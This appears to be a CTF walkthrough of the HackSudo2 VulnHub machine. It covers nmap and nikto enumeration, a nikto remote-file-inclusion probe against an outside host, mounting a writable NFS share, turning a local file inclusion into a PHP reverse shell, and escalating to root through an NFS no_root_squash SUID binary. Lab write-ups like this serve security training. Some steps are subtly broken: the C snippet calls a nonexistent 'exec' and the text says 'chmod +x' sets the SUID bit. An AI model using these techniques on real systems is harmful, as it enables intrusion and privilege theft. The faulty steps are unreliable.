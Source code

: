 ```yaml
---
description: >-
  Walkthrough for the HackSudo2 boot2root machine on VulnHub
title: "HackSudo2 VulnHub Walkthrough"
categories: [Walkthrough]
tags: [walkthrough, ctf, vulnhub]
date: 2024-04-26 17:05:00 -0500
---
```

This is a walkthrough for the [HackSudo2](https://www.vulnhub.com/entry/hacksudo-2-hackdudo,667/) boot2root machine on VulnHub.  
## Enumeration
Ran nmap to enumerate services running on the target machine  
`sudo nmap -A -p- 10.0.3.59`
>Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-22 17:21 EDT  
Nmap scan report for 10.0.3.59  
Host is up (0.00056s latency).                                                
Not shown: 65527 closed tcp ports (reset)                                     
PORT      STATE SERVICE  VERSION                                               
80/tcp    open  http     Apache httpd 2.4.46 ((Ubuntu))                         
\|\_http-title: hacksudo:2                                                        
\|\_http-server-header: Apache/2.4.46 (Ubuntu)                                        
111/tcp   open  rpcbind  2-4 (RPC #100000)                                          
\| rpcinfo:                                                                          
\|   program version    port/proto  service                                          
\|   100000  2,3,4        111/tcp   rpcbind                                               
\|   100000  2,3,4        111/udp   rpcbind                                               
\|   100000  3,4          111/tcp6  rpcbind                                               
\|   100000  3,4          111/udp6  rpcbind                                               
\|   100003  3           2049/udp   nfs                                                   
\|   100003  3           2049/udp6  nfs                                                         
\|   100003  3,4         2049/tcp   nfs                                                         
\|   100003  3,4         2049/tcp6  nfs                                                         
\|   100005  1,2,3      34775/udp   mountd                                                      
\|   100005  1,2,3      39085/tcp6  mountd                                                      
\|   100005  1,2,3      44755/udp6  mountd                                                      
\|   100005  1,2,3      58523/tcp   mountd                                                           
\|   100021  1,3,4      35925/tcp   nlockmgr                                                         
\|   100021  1,3,4      37709/udp6  nlockmgr                                                         
\|   100021  1,3,4      43093/udp   nlockmgr                                                         
\|   100021  1,3,4      45317/tcp6  nlockmgr                                                           
\|   100227  3           2049/tcp   nfs_acl                                                            
\|   100227  3           2049/tcp6  nfs_acl                                                              
\|   100227  3           2049/udp   nfs_acl                                                              
\|_  100227  3           2049/udp6  nfs_acl                                                                  
1337/tcp  open  ssh      OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)                                
\| ssh-hostkey:                                                                                              
\|   3072 522e9898b9e9c092edacf88cee3c2edc (RSA)                                                                 
\|   256 6bbb8c90716af9e82a128f0a782b267d (ECDSA)                                                                
\|_  256 136845ff32680ce4b51e9baeb633f3be (ED25519)                                                               
2049/tcp  open  nfs_acl  3 (RPC #100227)  
35925/tcp open  nlockmgr 1-4 (RPC #100021)  
37059/tcp open  mountd   1-3 (RPC #100005)  
48763/tcp open  mountd   1-3 (RPC #100005)  
58523/tcp open  mountd   1-3 (RPC #100005)  

Ran nikto to enumerate information and potential vulnerabilities for the web server running on port 80  
`sudo nikto -h http://10.0.3.59`
>\- Nikto v2.5.0  
\---------------------------------------------------------------------------  
\+ Target IP:          10.0.3.59  
\+ Target Hostname:    10.0.3.59  
\+ Target Port:        80  
\+ Start Time:         2023-07-22 17:22:42 (GMT-4)  
\---------------------------------------------------------------------------  
\+ Server: Apache/2.4.46 (Ubuntu)  
[...]  
\+ OPTIONS: Allowed HTTP Methods: OPTIONS, HEAD, GET, POST .  
\+ /web/: Directory indexing found.  
\+ /css/: Directory indexing found.  
\+ /css/: This might be interesting.  
\+ /lib/: Directory indexing found.  
\+ /lib/: This might be interesting.  
\+ /test.html: This might be interesting.  
\+ /web/: This might be interesting.  
\+ /info.php: Output from the phpinfo() function was found.  
\+ /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552  
\+ **/info.php?file=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2**  
\+ /README.md: Readme Found.  
\+ 8104 requests: 0 error(s) and 16 item(s) reported on remote host  
\+ End Time:           2023-07-22 17:22:58 (GMT-4) (16 seconds)  
\---------------------------------------------------------------------------  
\+ 1 host(s) tested

Interesting! nikto returns results for a possible RFI vulnerability in info.php  
We will come back to that

The nmap output also indicated that the nfs service is running  
Further enumeration shows that /mnt/nfs is exported on the target machine and can be mounted on our machine  
`showmount -e 10.0.3.59`  
>Export list for 10.0.3.59:  
/mnt/nfs *

Made a local directory on my Kali box at /mnt/nfs (the folder name doesn't have to be identical to the target's), mounted the target machine's /mnt/nfs folder, and gathered the first flag  
`sudo mkdir /mnt/nfs`  
`sudo mount 10.0.3.59:/mnt/nfs /mnt/nfs`  
`ls /mnt/nfs`  
>flag1.txt

`cat flag1.txt`  
>now root this system !!!

Looks like files can be created in this mounted folder too  
`sudo su`  
`cd /mnt/nfs`  
`echo "asdf" > asdf`  
`ls`  
>asdf  
flag1.txt

## Exploitation
Navigated to the page that supposedly has an RFI vulnerability  
![file.php](../images/hacksudo2_file_overview.png)

Decided to check for LFI since we can create files in the target machine's /mnt/nfs folder  
Navigated to http://10.0.3.59/file.php?file=/mnt/nfs/asdf  
![file.php asdf LFI](../images/hacksudo2_file_lfi_asdf.png)  
LFI confirmed!

Since the web server has a PHP engine, I decided to create a PHP reverse shell  
Used PenTestMonkey's php-reverse-shell.php (located in /usr/share/webshells/php on Kali) and modified the IP and port to point to my Kali machine's IP and port 1234  
Started a nc listener on port 1234  
`nc -lvp 1234`  
Copied the modified php-reverse-shell.php to /mnt/nfs/shell.php  

Navigated to http://10.0.3.59/file.php?file=/mnt/nfs/shell.php  
![file.php LFI reverse shell](../images/hacksudo2_file_lfi_revshell.png)  
Got a reverse shell running as www-data!

## Privilege Escalation
Transferred over linpeas.sh to /mnt/nfs and ran it  
In the linpeas output, we can see that /mnt/nfs has a spicy option configured: no\_root\_squash  
![nfs folder options](../images/hacksudo2_nfs_config.png)  

To quote [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe):  
>This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.  

So one way we could escalate privileges is to create a SUID file in /mnt/nfs and run it on the target machine  
Used the following [C code](https://github.com/jivoi/pentest/blob/master/shell/suid.c) to create a binary that will execute /bin/sh as root  
```c
int main(void) {
	setgid(0); setuid(0);
	exec("/bin/sh", "sh", 0);
}
```
(In hindsight, probably could have just used a simple bash script rather than a C binary for this)  

Saved the C code to /mnt/nfs/suid.c  
Compiled using `gcc suid.c -static` and generated a file named a.out  
Configured the SUID bit on the compiled file by running `chmod +x a.out`  
![Creating SUID file](../images/hacksudo2_nfs_suid.png)  

In the reverse shell, ran a.out  
![Escalating privileges](../images/hacksudo2_privesc.png)  
Got root!

### root.txt flag
![root.txt flag](../images/hacksudo2_flag_root.png)
